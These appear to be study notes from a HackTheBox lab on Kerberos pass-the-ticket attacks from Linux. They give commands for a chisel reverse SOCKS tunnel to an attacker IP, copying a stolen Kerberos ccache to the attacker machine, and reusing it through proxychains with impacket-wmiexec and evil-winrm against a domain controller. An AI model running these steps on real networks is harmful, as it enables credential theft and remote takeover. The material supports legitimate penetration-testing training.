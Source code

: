 ```cmd-session
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

transfer CCACHE to attacker
```
scpy carlos@inlanefreight.htb@ip:/tmp/ccache /home/hackthebox-labs/passwords_attacks/kerberos_linux
```
set env variable to ccache location
```shell-session
]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket

To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option `-k`. If we get a prompt for a password, we can also include the option `-no-pass`.

```shell-session
$ proxychains impacket-wmiexec dc01 -k
```
**Note:** If you are using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, we need to modify the variable only to include the path to the ccache file.
### Evil-WinRM
we need a package called krb5user
```shell-session
$ sudo apt-get install krb5-user -y
```
![[Pasted image 20250626094411.png]]
In case the package `krb5-user` is already installed, we need to change the configuration file `/etc/krb5.conf` to include the following values:

#### Kerberos configuration file for INLANEFREIGHT.HTB


```shell-session
cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

...SNIP...

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
```

using evilwinrm
```shell-session
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

# convert ccache to windows ticket
